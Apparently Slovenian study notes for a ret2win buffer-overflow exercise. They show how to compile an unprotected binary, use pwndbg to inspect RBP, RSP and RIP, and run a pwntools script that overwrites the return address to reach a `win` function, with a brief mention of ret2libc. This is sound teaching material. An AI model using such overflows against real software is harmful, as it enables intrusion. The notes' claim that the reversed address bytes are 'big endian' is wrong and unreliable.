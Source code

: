 - če povozimo return address lahko naredimo, da main kliče samega sebe (prejšnja vaja)
- za skoke nazaj rabimo return address in kje se je prejšnji stack začel (to je base pointer)
- za skoke rabimo vedeti return address in base pointer

- ret2win - skočiš na "win" function
- rabimo compilat brez kanarčka: `gcc -fno-stack-protector -z execstack -no-pie -o server server.c`

```
pwndbg main
run // požene program, lahko samo `r`
b main // breakpoint na prvo vrstico main
r
```

- RBP = base pointer
- RSP = stack pointer
- na začetku kažeta na isto zadevo
- RIP = instruction pointer (program counter) - kaže na naslov naslednjega ukaza

```
b* main // se break-a po tem, ko se prvi ukaz zažene, ne pred tem tako kot pri `b`
```

```
ni // next instruction
```

- stack je na dnu pomnilnika, zato je naslov `0x7fffffff...`
- če vpišemo preveč znakov (A):
	- ![200](../../Images3/Pasted%20image%2020250303134932.png)
	- s tem smo povozili stack, na stacku je shranjeno zaporedje klicov funkcij - ko pridemo do return, bo poskusilo skočiti na `0x4141414141414141` (na naslov na vrhu stacka) (to so v bistvu ASCII 'A')

```
c // continue, da gre naprej do breakpointa, ki ga imamo v main
```

- `x/100gx $rsp` - dobimo memory map
- lahko rabimo alignment na nekaj bytov, zato naš char array ni res 20B, ampak je 32 ali 40 ...; včasih rabimo allignati na 8B, včasih pa na 16B

```python
from pwn import *

# p = process('./main')

p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8

# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)

p.sendline(b"A"*20 + b"B"*8 + b"C"*8)

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- ![500](../../Images3/Pasted%20image%2020250303143510.png)

- da ugotovimo, kje v pomnilniku je `win` funkcija, moramo pogledati disassembly:
	- `disass main`
	- `disass win`

`0x0000000000401156`
`b"\x00\x00\x00\x00\x00\x40\x11\x56"`
- rabimo v bistvu ravno okoli obrniti, ker rabimo big endian (vodila na procesorju so tako postavljena na RAM, da se ravno zarotira)
- `b"\x56\x11\x40\x00\x00\x00\x00\x00"`

- pwntools funkcija `p64` - `p64(0x401156)`

```
from pwn import *

# p = process('./main')
p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8
# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)
p.sendline(b"A"*32 + b"B"*8 + p64(0x401156))

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- po koncu main, bo skočilo v `win` funkcijo in izpisalo "You win"
- ret2libc - vemo, kje je puts in kje ima libc `system` - lahko skočimo na `system`